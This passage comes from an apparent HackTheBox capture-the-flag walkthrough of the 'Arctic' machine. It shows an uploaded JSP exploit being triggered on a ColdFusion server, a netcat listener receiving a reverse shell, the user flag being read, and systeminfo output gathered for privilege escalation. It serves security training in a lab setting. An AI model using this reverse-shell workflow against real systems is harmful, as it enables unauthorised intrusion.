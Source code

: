 And then, visited the location of the exploit in the browser to run the shell.jsp file.

```
http://10.10.10.11:8500/userfiles/file/exploit.jsp
```

Looking back at the `netcat` listener, I got a shell

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Artic]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.11] 49869
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

I grabbed the user flag.
```
C:\Users\tolis\Desktop>type user.txt
type user.txt
[REDACATED]
```

## Privilge Escalation.

Now, I used `systeminfo` to get information about the machine, to use it in `Windows Expliot Suggester`

```
C:\Users\tolis\Desktop>systeminfo
systeminfo

Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 ��
System Boot Time:          5/2/2023, 3:44:19 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     6.143 MB
Available Physical Memory: 5.101 MB
Virtual Memory: Max Size:  12.285 MB
Virtual Memory: Available: 11.277 MB
Virtual Memory: In Use:    1.008 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
```